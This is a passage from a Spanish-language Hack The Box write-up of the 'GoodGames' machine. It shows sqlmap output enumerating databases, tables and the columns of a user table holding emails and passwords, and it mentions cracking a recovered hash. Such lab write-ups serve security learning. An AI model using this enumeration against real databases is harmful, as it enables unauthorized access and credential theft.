 ![](/assets/images/HTB/Goodgames-HackTheBox/sqlmap1.webp)

* Ahora ya se que existen dos bases de datos, `main` e `information_schema`, por lo que el siguiente paso es descubrir las tablas existentes dentro de la BD.

```sql
Database: main
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+
```

* De nuevo encuentro la tabla user, donde podría haber datos de usuario y contraseñas... asique lo siguiente es proceder a leer las columnas de la tabla user.

```sql
Database: main
Table: user
[4 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| email    | varchar(255) |
| id       | int          |
| name     | varchar(255) |
| password | varchar(255) |
+----------+--------------+
```

A través de sqlmap consigo descubrir y descifrar uno de los hashes.
